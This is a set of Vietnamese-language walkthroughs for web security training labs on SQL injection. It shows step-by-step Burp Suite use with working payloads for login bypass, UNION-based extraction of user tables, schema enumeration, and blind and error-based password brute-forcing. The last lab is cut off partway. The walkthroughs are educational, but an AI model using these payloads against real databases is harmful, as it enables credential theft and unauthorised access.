# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection liên quan đến bộ lọc về loại mặt hàng. Khi người dùng chọn một loại mặt hàng, ứng dụng sẽ thực hiện một truy vấn SQL như sau:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Để giải bài lab này, hãy thực hiện tấn công SQL injection và xuất ra ít nhất một sản phẩm chưa được phát hành.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một loại mặt hàng bất kỳ trên ứng dụng, ở ví dụ này tôi chọn *Tech gifts*.
5. Bỏ qua gói tin PING bằng cách nhấn **Forward**.
6. Phân tích gói tin ta sẽ thấy phần `category=Tech+gifts`.

```
GET /filter?category=Tech+gifts HTTP/2
Host: 0acf0092030fea408003951800f6008e.web-security-academy.net
Cookie: session=cY6Hd4SqjPVZvbrqetjcwXHgbbdGigPp
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0acf0092030fea408003951800f6008e.web-security-academy.net/filter?category=Pets
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
```

7. Sửa thông tin `category` thành `category=Tech+gifts'+OR+1=1--`. Lúc này ứng dụng sẽ thực hiện một truy vấn SQL như sau:

```sql
SELECT * FROM products WHERE category = 'Tech gifts' OR 1=1--' AND released = 1
```
- Mệnh đề `WHERE` sẽ tìm kiếm các sản phẩm có `category = 'Tech gifts'` hoặc `1=1` (luôn đúng), tức sẽ trả về mọi sản phẩm.
- Dấu `--` sử dụng để đưa mệnh đề `AND` vào phần bình luận và không thực hiện nó, từ đó lấy được thông tin về các sản phẩm chưa phát hành.

8. Chọn **Forward** để gửi gói tin, ứng dụng sẽ trả về kết quả như yêu cầu, kèm với thông báo đã hoàn thành bài lab.



# Lab: SQL injection vulnerability allowing login bypass

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection trong chức năng đăng nhập.

Để giải quyết bài lab, thực hiện một cuộc tấn công SQL injection để đăng nhập vào ứng dụng với tư cách là người dùng `administrator`.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn *My account* để di chuyển tới trang đang nhập của ứng dụng.



4. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
5. Điền một thông tin đăng nhập ngẫu nhiên vào `username` và `password`, trong ví dụ này tôi sử dụng ký tự `a` để điền vào cả 2, và chọn **Log in**.
6. Phân tích gói tin mà BurpSuite đã chặn lại, ta có thể thấy các lệnh gán được thực hiện lên các biến `username=a` và `password=a`.

```
POST /login HTTP/2
Host: 0a5a001003763365809c807a00fd0066.web-security-academy.net
Cookie: session=kPlT05GsAtrZGFOGdOtT0NOjX1HF760s
Content-Length: 59
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a5a001003763365809c807a00fd0066.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5a001003763365809c807a00fd0066.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

csrf=92xpj2USBesupJfJH5bMZebO8iUjdxPa&username=a&password=a
```

7. Ta có thể nhận định rằng ứng dụng sẽ thực hiện một truy vấn SQL như sau:

```sql
SELECT * FROM users WHERE username = 'a' AND password = 'a'
```

8. Vì đang hướng tới người dùng `administrator`, ta có thể điền `administrator'--` vào `username` và điền ngẫu nhiên vào `password` trên giao diện đăng nhập. Ứng dụng sau đó sẽ thực hiện truy vấn SQL như sau:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'a'
```
- `administrator` được điền vào để hướng tới việc đăng nhập bằng quyền của người dùng `administrator`.
- `'--` được điền vào để đóng lại phần nhập dữ liệu đầu vào cho `username` và biến toàn bộ phần đăng sau của truy vấn SQL trở thành bình luận.

9. Chọn **Forward** để gửi gói tin, ứng dụng sẽ trả về kết quả như yêu cầu, kèm với thông báo đã hoàn thành bài lab.

# Lab: SQL injection UNION attack, determining the number of columns returned by the query

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng cuộc tấn công UNION để truy xuất dữ liệu từ các bảng khác. Bước đầu tiên của cuộc tấn công này là xác định số lượng cột được trả về bởi truy vấn. Sau đó, bạn sẽ sử dụng kỹ thuật này trong các bài lab tiếp theo để xây dựng cuộc tấn công đầy đủ.

Để giải quyết bài lab, hãy xác định số lượng cột được trả về bởi truy vấn bằng cách thực hiện một cuộc tấn công SQL injection UNION trả về một hàng bổ sung chứa các giá trị NULL.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.



6. Theo yêu cầu của đề, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL--`.
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.


8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL,NULL--`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 3 cột.



9. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**. Ứng dụng sẽ trả về thông báo đã hoàn thành bài lab.

# Lab: SQL injection UNION attack, finding a column containing text

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng một cuộc tấn công UNION để truy xuất dữ liệu từ các bảng khác. Để xây dựng một cuộc tấn công như vậy, trước tiên bạn cần xác định số lượng cột được trả về bởi truy vấn. Bạn có thể làm điều này bằng cách sử dụng kỹ thuật mà bạn đã học trong phòng lab trước đó. Bước tiếp theo là xác định một cột tương thích với dữ liệu chuỗi.

Bài lab sẽ cung cấp một giá trị ngẫu nhiên mà bạn cần làm xuất hiện trong kết quả truy vấn. Để giải quyết phòng lab, hãy thực hiện một cuộc tấn công SQL injection UNION trả về một hàng bổ sung chứa giá trị được cung cấp. Kỹ thuật này giúp bạn xác định cột nào tương thích với dữ liệu chuỗi.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.



6. Trước hết, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL--`.
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.



8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL,NULL--`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 3 cột.
9. Lần lượt thay thế các giá trị `NULL` bằng giá trị bài lab yêu cầu để kiềm tra cột có thể trả về giá trị dạng `string`. Sau khi thay vào giá trị `NULL` thứ 2, ứng dụng đã không trả về lỗi.



10. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**. Ứng dụng sẽ trả về thông báo đã hoàn thành bài lab.

# Lab: SQL injection UNION attack, retrieving data from other tables

## Mô tả bài lab

Phòng lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng một cuộc tấn công `UNION` để truy xuất dữ liệu từ các bảng khác. Để xây dựng một cuộc tấn công như vậy, bạn cần kết hợp một số kỹ thuật mà bạn đã học trong các phòng lab trước đó.

Cơ sở dữ liệu chứa một bảng khác gọi là `users`, với các cột tên là `username` và `password`.

Để giải quyết phòng lab, hãy thực hiện một cuộc tấn công SQL injection UNION để truy xuất tất cả tên người dùng và mật khẩu, và sử dụng thông tin đó để đăng nhập với tư cách là `administrator`.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.



6. Trước hết, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL--`.
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.



8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL--`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 2 cột.
9. Lần lượt thay thế các giá trị `NULL` bằng giá trị bài lab yêu cầu để kiểm tra cột có thể can thiệp. Sau khi thay vào cả 2 giá trị `NULL`, ứng dụng vẫn không trả về lỗi.


10. Theo yêu cầu bài lab, ta cần lấy giá trị của các cột `username` và `password` từ bảng `users`. Ta sẽ sử dụng gói tin như sau:

```sql
'+UNION+SELECT+username,+password+FROM+users--
```

10. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**. Ứng dụng sẽ trả về thông tin đăng nhập của các người dùng, bao gồm cả `administrator`.



11. Sử dụng thông tin này để đăng nhập, ứng dụng sau đó sẽ trả về thông báo hoàn thành bài lab.

# Lab: SQL injection UNION attack, retrieving multiple values in a single column

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng một cuộc tấn công UNION để truy xuất dữ liệu từ các bảng khác.

Cơ sở dữ liệu chứa một bảng khác gọi là users, với các cột username và password.

Để giải quyết bài lab, hãy thực hiện một cuộc tấn công SQL injection UNION để truy xuất tất cả các tên người dùng và mật khẩu, sau đó sử dụng thông tin này để đăng nhập dưới tư cách người quản trị.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.



6. Trước hết, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL--`.
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.



8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL--`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 2 cột.
9. Lần lượt thay thế các giá trị `NULL` bằng giá trị bài lab yêu cầu để kiểm tra cột có thể can thiệp. Sau khi thay vào từng giá trị `NULL`, ứng dụng vẫn không trả về lỗi ở giá trị `NULL` thứ 2.



10. Theo yêu cầu bài lab, ta cần lấy giá trị của các cột `username` và `password` từ bảng `users`. Ta sẽ sử dụng gói tin như sau:

```
'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--
```

10. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**. Ứng dụng sẽ trả về thông tin đăng nhập của các người dùng, bao gồm cả `administrator`.



11. Sử dụng thông tin này để đăng nhập, ứng dụng sau đó sẽ trả về thông báo hoàn thành bài lab.

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Bạn có thể sử dụng một cuộc tấn công UNION để truy xuất kết quả từ một truy vấn được tiêm vào.

Để giải quyết bài lab, hãy hiển thị chuỗi phiên bản cơ sở dữ liệu.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Gifts*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.



6. Trước hết, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL#` (ta sử dụng `#` vì đang thực hiện tấn công lên database sử dụng MySQL).
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.



8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL#`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 2 cột.
9. Lần lượt thay thế các giá trị `NULL` bằng giá trị bài lab yêu cầu để kiểm tra cột có thể can thiệp. Sau khi thay vào từng giá trị `NULL`, ứng dụng không trả về lỗi ở giá trị `NULL` đầu tiên.



10. Theo yêu cầu bài lab, ta cần lấy thông tin về phiên bản của cơ sở dữ liệu. Ta sẽ sử dụng gói tin như sau:

```
'+UNION+SELECT+@@version,NULL#
```

10. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**. Ứng dụng sẽ trả về thông tin phiên bản của cơ sở dữ liệu và thông báo hoàn thành bài lab.

# Lab: SQL injection attack, listing the database contents on non-Oracle databases

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng tấn công UNION để truy xuất dữ liệu từ các bảng khác.

Ứng dụng có chức năng đăng nhập, và cơ sở dữ liệu chứa một bảng giữ tên người dùng và mật khẩu. Bạn cần xác định tên của bảng này và các cột mà nó chứa, sau đó truy xuất nội dung của bảng để lấy tên người dùng và mật khẩu của tất cả người dùng.

Để giải quyết bài lab, hãy đăng nhập với tư cách `administrator`.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.



6. Trước hết, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL--`.
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.


8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL--`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 2 cột.
9. Lần lượt thay thế các giá trị `NULL` bằng giá trị bài lab yêu cầu để kiểm tra cột có thể can thiệp. Sau khi thay vào từng giá trị `NULL`, ứng dụng không trả về lỗi ở cả 2 giá trị `NULL`.



10. Theo yêu cầu bài lab, ta cần lấy thông tin về phiên bản của cơ sở dữ liệu. Ta sẽ sử dụng gói tin như sau:

```
'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
```

11. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**.



12. Ta phát hiện được bảng `users_olbyfk` có thể có thông tin nhạy cảm, tiếp tục thực hiện truy vấn vào bảng này. Ta chọn một bộ lọc bất kỳ để tạo một truy vấn mới, thay giá trị của `category` và chọn **Forward**:


```
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_olbyfk'--
```

13. Lần này ta phát hiện được cột `username_rzmmxj` và `password_lxongs` có thể chứa thông tin nhạy cảm, tiếp tục tấn công tương tự như bước 11. bằng gói tin như sau:


```
'+UNION+SELECT+username_rzmmxj,password_lxongs+FROM+users_olbyfk--
```

14. Ứng dụng sẽ trả về thông tin đăng nhập của người dùng, bao gồm cả `administrator`. Sử dụng thông tin này để đăng nhập và ứng dụng sẽ thông báo hoàn thành bài lab.



# Lab: Blind SQL injection with conditional responses

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection mù. Ứng dụng sử dụng một cookie theo dõi cho phân tích và thực hiện một truy vấn SQL chứa giá trị của cookie đã gửi.

Kết quả của truy vấn SQL không được trả về và không có thông báo lỗi nào được hiển thị. Nhưng ứng dụng bao gồm một thông báo "Welcome back" trên trang nếu truy vấn trả về bất kỳ hàng nào.

Cơ sở dữ liệu chứa một bảng khác gọi là `users`, với các cột `username` và `password`. Bạn cần khai thác lỗ hổng SQL injection mù để tìm ra mật khẩu của người dùng `administrator`.

Để giải quyết bài lab, hãy đăng nhập như người dùng `administrator`.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Intruder* và chuyển sang tab **Intruder**.



6. Xác nhận rằng ứng dụng đang gán `TrackingId` cho chúng ta là `TAqC1EGZkomvZwB1`, ta có thể thêm vào sau đó một số thông tin để thực hiện tấn công SQL injection. Bài lab đã cho chúng ta biết trong cơ sở dữ liệu của ứng dụng có một bảng `users` có chứa cột `username` và `password`, từ đây ta có thể thực hiện tấn công bằng gói tin như sau để xác định độ dài mật khẩu của người dùng `administrator`:
```
'+AND+(SELECT+'a'+FROM+users+where+username='administrator'+AND+LENGTH(password)>§§)='a
```
7. Chuyển sang tab **Payloads** để chỉnh sửa gói tin truyền vào mỗi lần thực hiện tấn công. Chọn *Payload type* là `Numbers` và điều chỉnh cho thông tin truyền vào sẽ chạy từ 0 đến 30.



8. Chuyển sang tab **Settings** và di chuyển tới *Grep - Match*, chọn *Flag result...* để đánh dấu các kết quả có từ trùng khớp, sau đó chọn *Clear>Yes* để xoá toàn bộ thông tin hiện có trong danh sách, cuối cùng thêm vào `Welcome back!`. Chọn **Start attack** để bắt đầu thực hiện tấn công.

9. Bảng kết quả sẽ xuất hiện và hiển thị độ dài của phản hồi trong mỗi lần gửi. Ta có thể thấy độ dài này thay đổi khi tham số truyền vào lớn hơn 19, có thể kết luận độ dài mật khẩu là 20.



10. Sau khi biết được độ dài của mật khẩu, ta sẽ thực hiện Brute Force mật khẩu chính xác của người dùng `administrator`. Được biết mật khẩu sẽ chỉ chứa chữ cái thường và chữ số, ta chuyển về tab **Positions** sử dụng gói tin như sau để tấn công:

```
'+AND+(SELECT+SUBSTRING(password,§§,1)+FROM+users+where+username='administrator')='§§
```

11. Lần này, ta sẽ chọn *Attack type* là `Cluster bomb` để thực hiện tấn công vào 2 vị trí payload (ký hiệu §§) cùng 1 lúc. Chuyển qua tab **Payloads**, ở *Payload set* đầu tiên, ta sẽ chọn *Payload type* là `Numbers` chạy từ 1 đến 20 để duyệt toàn bộ vị trí của mật khẩu. Ở *Payload set* thứ 2, ta sẽ chọn *Payload type* là `Brute forcer`, chọn *Min length* và *Max length* là 1, sau đó chọn **Start attack** để thực hiện tấn công.
12. Với bảng thông tin được hiển thị, chuột phải vào `Payload 1` và chọn *Sort>Ascending*, sau đó chuột phải vào `Welcome...` và chọn *Sort>Descending*. Ta sẽ có được mật khẩu cho người dùng `administrator` là `qfmf8cj7yk08tzuhcqnh`.



13. Quay trở lại tab **Proxy**, chọn **Intercept is on** để chuyển nó về **Intercept is off**, sau đó chọn *My account* để mở giao diện đăng nhập. Sử dụng tên người dùng là `administrator` và mật khẩu là `qfmf8cj7yk08tzuhcqnh`. Sau khi đăng nhập thành công, ứng dụng sẽ thông báo hoàn thành bài lab.



# Lab: Blind SQL injection with conditional errors

## Mô tả bài lab

Bài lab này chứa một lỗ hổng blind SQL injection. Ứng dụng sử dụng một cookie theo dõi cho mục đích phân tích, và thực hiện một truy vấn SQL chứa giá trị của cookie đã được gửi.

Kết quả của truy vấn SQL không được trả về và ứng dụng không phản hồi khác biệt dựa trên việc truy vấn có trả về bất kỳ hàng nào hay không. Nếu truy vấn SQL gây ra lỗi, thì ứng dụng sẽ trả về một thông báo lỗi tùy chỉnh.

Cơ sở dữ liệu chứa một bảng khác gọi là `users`, với các cột là `username` và `password`. Bạn cần khai thác lỗ hổng blind SQL injection để tìm ra mật khẩu của người dùng `administrator`.

Để giải quyết bài lab, hãy đăng nhập bằng người dùng `administrator`.

## Các bước thực hiện
1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Gifts*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và *Action>Send to Intruder*, sau đó chuyển sang tab **Repeater**.



6. Xác nhận rằng ứng dụng đang gán `TrackingId` cho chúng ta là `fR0EUzEygDeLIwmH`, ta có thể thêm vào sau đó một số thông tin để thực hiện tấn công SQL injection. Được biết ứng dụng không trả về bất kỳ cột thông tin nào từ truy vấn SQL, vậy nên ta cần nối ký tự vào `TrackingId` này để tạo thông báo lỗi. Trước hết ta cần xác nhận loại cơ sở dữ liệu đang được nhắm tới, ta có thể thực hiện điều đó bằng cách thêm `'+'` hoặc `'||'` vào phần cuối của `TrackingId`, từ đây biết được `'||'` không phát sinh lỗi và xác định được ứng dụng sử dụng cơ sở dữ liệu Oracle.

7. Di chuyển sang tab **Intruder**, bài lab đã cho chúng ta biết trong cơ sở dữ liệu của ứng dụng có một bảng `users` có chứa cột `username` và `password`, từ đây ta có thể thực hiện tấn công bằng gói tin như sau để xác định độ dài mật khẩu của người dùng `administrator`, gói tin sẽ tạo lỗi *divide by zero* nếu độ dài mật khẩu không chính xác và ứng dụng sẽ chạy bình thường nếu độ dài chính xác:
```
'||(SELECT CASE WHEN LENGTH(password)=§§ THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator')||'
```
8. Chuyển sang tab **Payloads** để chỉnh sửa gói tin truyền vào mỗi lần thực hiện tấn công. Chọn *Payload type* là `Numbers` và điều chỉnh cho thông tin truyền vào sẽ chạy từ 1 đến 30.



0. Chuyển sang tab **Settings** và di chuyển tới *Grep - Match*, chọn *Flag result...* để đánh dấu các kết quả có từ trùng khớp, sau đó chọn *Clear>Yes* để xoá toàn bộ thông tin hiện có trong danh sách. Cuối cùng thêm vào `OK` và bỏ tích ở *Exclude HTTP headers*, điều này giúp ta dễ dàng xác định khi nào ứng dụng hoạt động bình thường (trả về HTTP header `OK`). Chọn **Start attack** để bắt đầu thực hiện tấn công.

10. Bảng kết quả sẽ xuất hiện và hiển thị độ dài của phản hồi trong mỗi lần gửi. Ta có thể thấy độ dài này thay đổi khi tham số truyền vào lớn hơn 19, có thể kết luận độ dài mật khẩu là 20.



11. Sau khi biết được độ dài của mật khẩu, ta sẽ thực hiện Brute Force mật khẩu chính xác của người dùng `administrator`. Được biết mật khẩu sẽ chỉ chứa chữ cái thường và chữ số, ta chuyển về tab **Positions** sử dụng gói tin như sau để tấn công:

```
'||(SELECT CASE WHEN SUBSTR(password,§§,1)='§§' THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator')||'
```

12. Lần này, ta sẽ chọn *Attack type* là `Cluster bomb` để thực hiện tấn công vào 2 vị trí payload (ký hiệu §§) cùng 1 lúc. Chuyển qua tab **Payloads**, ở *Payload set* đầu tiên, ta sẽ chọn *Payload type* là `Numbers` chạy từ 1 đến 20 để duyệt toàn bộ vị trí của mật khẩu. Ở *Payload set* thứ 2, ta sẽ chọn *Payload type* là `Brute forcer`, chọn *Min length* và *Max length* là 1, sau đó chọn **Start attack** để thực hiện tấn công.
13. Với bảng thông tin được hiển thị, chuột phải vào *Payload 1* và chọn *Sort>Ascending*, sau đó chuột phải vào *OK* và chọn *Sort>Descending*. Ta sẽ có được mật khẩu cho người dùng `administrator` là `llwv4re8t5s0l7dd701u`.



14. Quay trở lại tab **Proxy**, chọn **Intercept is on** để chuyển nó về **Intercept is off**, sau đó chọn *My account* để mở giao diện đăng nhập. Sử dụng tên người dùng là `administrator` và mật khẩu là `llwv4re8t5s0l7dd701u`. Sau khi đăng nhập thành công, ứng dụng sẽ thông báo hoàn thành bài lab.



# Lab: Visible error-based SQL injection

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection. Ứng dụng sử dụng cookie theo dõi để phân tích, và thực hiện một truy vấn SQL chứa giá trị của cookie được gửi. Kết quả của truy vấn SQL không được trả về.

Cơ sở dữ liệu chứa một bảng khác gọi là `users`, với các cột tên là `username` và `password`. Để giải quyết bài lab này, hãy tìm cách làm rò rỉ mật khẩu cho người dùng `administrator`, sau đó đăng nhập vào tài khoản đó.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**, chọn **Open browser**, sau đó truy cập vào URL của bài lab và quay lại với giao diện của BurpSuite.
3. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater*, sau đó chuyển sang tab **Repeater**.
4. Chọn **Send** để gửi thử gói tin một lần và chọn chế độ hiển thị cho phía phẩn hồi là **Render**.



5. Thêm `'` vào sau giá trị của `TrackingId` sau đó chọn **Send** để thử nghiệm lỗi của ứng dụng.



6. Có thể thấy, lỗi đã hiển thị chi tiết truy vấn SQL mà cơ sở dữ liệu đã thực hiện, ta sẽ bắt đầu làm việc từ đây. Ta đang can thiệp vào mệnh đề `WHERE` nên ta cần nội dung gói tin sẽ trả về dạng `boolean`, ví dụ như:
```
' AND 1=(SELECT 1)--
```
- `SELECT 1` sẽ trả về giá trị là `1`, khiến mệnh đề đúng và `--` sử dụng để loại bỏ dâu `'` trong truy vấn tránh gặp lỗi.
